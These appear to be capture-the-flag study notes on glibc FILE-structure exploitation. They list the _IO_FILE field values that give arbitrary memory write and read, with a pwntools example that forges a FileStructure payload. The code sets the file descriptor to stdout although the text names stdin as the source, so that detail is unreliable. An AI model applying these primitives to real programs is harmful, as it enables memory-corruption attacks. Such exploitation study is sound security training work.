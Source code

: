 ## Arbitrary Address Write

- Human language:
    - the ability to write anywhere on the memory
    - read file content then write to memory (`fread`)
    - reading data **into** memory
- `C` language:
    - `read(fd, buf, size);`
    - `fread(buf, size, nmemb, fp)`

Requirements:
- `_flags & _IO_NO_READS (0x4) == 0`[^no-read]
- `_IO_read_ptr == _IO_read_end`
- `_IO_buf_base` is set to the starting address to write into
- `_IO_buf_end` is set to the end address (starting address + number of bytes to be written into)
- `_IO_fileno` is set to the source of data file descriptor , usually `0` (`STDIN_FILENO`)

#### Example

Example using [`pwntools`](https://docs.pwntools.com/en/stable/filepointer.html#module-pwnlib.filepointer)
to setup for writing `nb` number of bytes into address `target_address`

```py,hidelines=~
from pwn import *

~target_address = 0x1337
~nb = 0x100
fs = FileStructure()
# flags taken from unbuffered _IO_2_1_stdin_, but most importantly 0xfbad208b & _IO_NO_READS == 0
fs.flags = 0xfbad208b
fs._IO_buf_base = target_address
fs._IO_buf_end = target_address + nb
fs._fileno = 1  # STDOUT_FILENO
payload = bytes(fs)  # payload to overwrite the whole field of _IO_FILE_plus struct
payload = fs.struntil("_fileno")  # payload to overwrite until _fileno

# Alternative way to automatically set the required fields and .struntil("_fileno")
payload = FileStructure().read(addr=target_address, size=nb)
```

[^no-read]: Default for `fopen(filepath, "r")` or achievable by `_flag & (~_IO_NO_READS)`

## Arbitrary Address Read

- Human language:
    - the ability to read any data from memory (leak memory)
    - read from memory then write to file (`fwrite`)
    - reading data **from** memory
- `C` language:
    - `write(fd, buf, size);`
    - `fwrite(buf, size, nmemb, fp)`

Requirements:
- `_flags & _IO_NO_WRITES (0x8) == 0`[^no-write]
- `_flags & _IO_UNBUFFERED (0x2) == 1` (not necessary, but desirable in most cases)
- `_IO_read_end == _IO_write_base`
- `_IO_write_base` is set to the starting address to read from
- `_IO_write_ptr` is set to the end address (starting address + number of bytes to be read from)
- `_IO_fileno` is set to the file descriptor where the read data is written into, usually `1` (`STDOUT_FILENO`)


[^no-write]: Default for `fopen(filepath, "w")` or achievable by `_flag & (~_IO_NO_WRITES)` (`_IO_NO_WRITES = 0x8`)